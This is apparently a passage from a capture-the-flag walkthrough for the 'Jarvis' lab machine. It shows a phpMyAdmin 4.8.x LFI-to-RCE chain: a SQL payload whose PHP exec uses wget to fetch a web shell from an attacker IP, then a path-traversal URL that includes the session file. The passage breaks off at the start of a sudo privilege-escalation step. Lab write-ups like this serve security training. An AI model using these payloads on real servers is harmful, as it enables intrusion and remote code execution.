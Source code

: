 ![Untitled](Jarvis%202c6ef6729276453bbe90b4f7f2bf76e9/Untitled%205.png)

## 2. phpMyAdmin 4.8.0 - RCE

**2. Metode: phpMyAdmin 4.8.x LFI to RCE 
(Authorization Required) [🔗](https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-Authorited-CLI-to-RCE/)**

**Upload PhP File**

1. Execute SQL Command on phpMyAdmin:

```
select '<?php exec("wget -O /var/www/html/shell.php http://10.10.14.22/shell.php"); ?>'
```

1. Copy phpMyAdmin Cookie: oas3t6nafq60at0c13e60svq1vfk8dch
2. Go to the URL:
    - [http://logger.htb/phpmyadmin](http://logger.htb/phpmyadmin/)/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_oas3t6nafq60at0c13e60svq1vfk8dch
3. File is uploaded: [http://logger.htb/](http://logger.htb/phpmyadmin/)shell.php

---

# Privilege Escalation - User

- `sudo -l`
    
    ```
    User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
    ```
    
    - Full [simpler.py](http://simpler.py)
        
        ```python
        #!/usr/bin/env python3
        from datetime import datetime
        import sys
        import os
        from os import listdir
        import re
        
        def show_help():
            message='''
        ********************************************************
        * Simpler   -   A simple simplifier ;)                 *
        * Version 1.0                                          *
        ********************************************************
        Usage:  python3 simpler.py [options]
        